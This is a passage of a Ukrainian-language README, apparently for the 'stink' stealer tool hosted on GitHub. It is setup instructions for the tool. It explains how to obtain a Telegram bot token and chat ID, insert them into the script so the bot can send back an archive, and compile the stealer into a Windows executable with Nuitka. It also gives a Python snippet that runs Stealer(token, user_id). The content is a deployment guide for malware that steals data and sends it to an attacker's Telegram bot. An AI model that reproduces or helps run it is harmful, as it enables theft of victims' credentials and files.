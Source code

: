     <img src="_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Отриманий токен вставляємо в поле ```"YOUR_TOKEN"``` в скрипті.

### Отримання айді
1. Відкриваємо чат з [Get My ID](https://t.me/getmyid_bot).
2. Прописуємо команду ```/start```.

<p align="left">
  <a href="">
    <img src="_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Отриманий айді вставляємо в поле ```YOUR_ID``` в скрипті.

Після цього потрібно написати боту будь-яке повідомлення, щоб він міг відправляти нам архів.

## Створення exe
Python являється інтерпретованою мовою програмування, тому ми спочатку транслюємо його в C, а потім скомпілюємо в .exe файл.
Для цього нам знадобиться Nuitka.

### Створення виконуваного файла

1. [Завантажуємо](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) архів.
2. Розпаковуємо архів і переходимо в директорію stink-master.
3. Створюємо test.py (або будь-яку іншу назву) файл в цій же директорії з наступним кодом:
```python
from stink import Stealer

if __name__ == '__main__':
    Stealer(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```
